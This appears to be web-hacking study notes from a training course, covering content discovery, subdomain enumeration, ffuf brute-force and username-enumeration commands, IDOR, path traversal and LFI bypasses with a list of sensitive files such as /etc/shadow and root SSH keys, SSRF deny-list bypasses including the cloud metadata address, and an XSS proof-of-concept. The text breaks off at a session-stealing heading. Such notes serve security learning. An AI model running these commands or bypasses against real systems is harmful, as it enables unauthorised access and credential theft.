




# Introduction to Web Hacking

### Walking an application

Use view source and developer tools (Inspector, Debugger and Network) to walk an application

### Content Discovery

**Manual**

Robots.txt: `<TARGET>/robots.txt`

Favicon: Get the favicon's md5 value and lookup in the [Favicon DB](https://wiki.owasp.org/index.php/OWASP_favicon_database)

Sitemap.xml: `<TARGET>/sitemap.xml`

HTTP Headers: `curl <TARGET> -v `

Framework Stack: Establish the framework (favicon, comments, copyright notices, etc.) and 
learn more about it from the website and relevant documentation.

**Automated**

ffuf: `ffuf -w <WORDLIST> -u <TARGET>`

dirb: `dirb <TARGET> <WORDLIST>`

Gobuster: `gobuster dir -u <TARGET> -w <WORDLIST>` *interesting commands other than dir*

**OSINT**

Google Dorks: [Google Hacking DB](https://www.exploit-db.com/google-hacking-database)

Wappalyzer: [Wappalyzer](https://www.wappalyzer.com/)

Wayback machine: [The Wayback Machine](https://archive.org/web/)

GitHub: Look for source code

S3 Buckets: `http(s)://<NAME>.s3.amazonaws.com`, Gobuster 

### Subdomain Enumeration

**Bruteforce**

DNS Bruteforce: [dnsrecon repository](https://github.com/darkoperator/dnsrecon)

**OSINT**

SSL/TLS Certificates: Certificate Transparency logs DB search [CRT](http://crt.sh/) & [Entrust CT search](https://ui.ctsearch.entrust.com/ui/ctsearchui)

Search Engines: Use dorks to find subdomains `-site:www.url.com site:*.url.com`

Sublist3r: [Sublist3r repository](https://github.com/aboul3la/Sublist3r)

**Virtual Host**

Host header: Fuzz the Host header `ffuf -w <WORDLIST> -H "Host: FUZZ.url.com" -u <TARGET>`. 
Filter the output with `-fs <SIZE>`

### Authentication Bypass

**Username Enumeration**

ffuf: `ffuf -w <WORDLIST> -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u <TARGET> -mr "username already exists"`
Change `-d` based on required inputs and `-mr` based on response.

**Brute Force**

ffuf: `ffuf -w <USERNAME-WORDLIST>:W1,<PASSWORD-WORDLIST>:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u <TARGET>/login -fc 200`
`-fc` filters by HTTP status code.

**Logic Flaw**

Flaw in the code that allows an unauthenticated user to bypass authentication checks.
Capture password reset and try another account, PHP code using === meaning different casing
will bypass, etc.

**Cookie Tampering**

Plain text cookies can be edited directly, base64 cookies can be decoded and hashed ones 
need identifying and cracking.

### IDOR

Decode or crack the ID then tamper and encode or hash it. Use 2 accounts and swap the ID 
numbers between them to see if IDOR is present.

Check the networks dev tool when the page loads and look for endpoint calls passing ID's.

### File Inclusion

**Path Traversal**

Use `../` to fetch files from other directories like /etc/passwd, c:\boot.ini or 
c:\windows\win.ini 

|Location                     | Description                                          |
|-----------------------------|------------------------------------------------------|
| /etc/issue                  | message or system id printed before login prompt     |
| /etc/profile                | controls system-wide default variables               |
| /proc/version               | specifies the version of the Linux kernel            |
| /etc/passwd                 | has all registered user that has access to a system  |
| /etc/shadow                 | information about the system's users' passwords      |
| /root/.bash_history         | contains the history commands for root user          |
| /var/log/dmessage           | contains global system messages, including startup   |
| /var/mail/root              | all emails for root user                             |
| /root/.ssh/id_rsa           | Private SSH keys for a root or any known valid user  |
| /var/log/apache2/access.log | the accessed requests for Apache  webserver          |
| C:\boot.ini                 | contains the boot options for PCs with BIOS firmware |

**LFI**

PHP functions: `include`, `require`, `include_once` and `require_once`

Lack of input validation allows attackers to access any file on the target system.

Check entry points with invalid data to check the error messages for any disclosure of 
information.

Adding the null byte (`%00` or `0x00`) terminates the string, avoiding enforced file type 
(in PHP versions > 5.3.3).

Bypass filters by using `.`, e.g `/etc/passwd/.`, double or triple slashes and dots `....//`

**RFI**

Include a file from a remote server, enabling RCE, by injecting an external URL instead of 
a file path.

### Server-Side Request Forgery - SSRF

SSRF allows a malicious user to cause the webserver to make an additional or edited HTTP 
request to the resource of the attacker's choosing. 

Regular SSRF where information is returned to the attacker and Blind SSRF where no data 
is returned.

Impact:
- Access to unauthorised areas
- Access to customer/org data
- Ability to scale to internal networks
- Reveal authentication tokens/credentials

**Examples of SSRF**






**Finding SSRF**

Full URL is used in a parameter in the address bar

`https://website.thm/form?server=http://server.website.thm/store`

A hidden field in a form

```
<form method="post" action="/form">
	<input type="hidden" name="server" value="http://website.thm/store"> <-- URL
	...
	...
</form>
```

A partial URL such as just the hostname

`https://website.thm/form?server=api` <-- hostname = api

The path of the URL 

`https://webiste.thm/form?dst=/forms/contact` <-- path = /forms/contact

**Defeating Common SSRF Defenses**

Deny List

A Deny List is where all requests are accepted apart from resources specified in a list or 
matching a particular pattern. A Web Application may employ a deny list to protect 
sensitive endpoints, IP addresses or domains from being accessed by the public while still 
allowing access to other locations. A specific endpoint to restrict access is the 
localhost, which may contain server performance data or further sensitive information, so 
domain names such as localhost and 127.0.0.1 would appear on a deny list. Attackers can 
bypass a Deny List by using alternative localhost references such as `0, 0.0.0.0, 0000, 
127.1, 127.*.*.*, 2130706433, 017700000001` or subdomains that have a DNS record which 
resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.

Also, in a cloud environment, it would be beneficial to block access to the IP address 
169.254.169.254, which contains metadata for the deployed cloud server, including possibly 
sensitive information. An attacker can bypass this by registering a subdomain on their own 
domain with a DNS record that points to the IP Address 169.254.169.254.

Allow List

An allow list is where all requests get denied unless they appear on a list or match a 
particular pattern, such as a rule that an URL used in a parameter must begin with https://
website.thm. An attacker could quickly circumvent this rule by creating a subdomain on an 
attacker's domain name, such as https://website.thm.attackers-domain.thm. The application 
logic would now allow this input and let an attacker control the internal HTTP request.

Open Redirect

If the above bypasses do not work there is the open redirect. An open redirect is an 
endpoint on the server where the website visitor gets automatically redirected to another 
website address. Take, for example, the link https://website.thm/link?url=https://
tryhackme.com. This endpoint was created to record the number of times visitors have 
clicked on this link for advertising/marketing purposes. But imagine there was a potential 
SSRF vulnerability with stringent rules which only allowed URLs beginning with https://
website.thm/. An attacker could utilise the above feature to redirect the internal HTTP 
request to a domain of the attacker's choice.

### Cross-Site Scripting - XSS

**XSS Payloads**

Proof Of Concept:

`<script> alert('XSS');</script>`

Session Stealing:
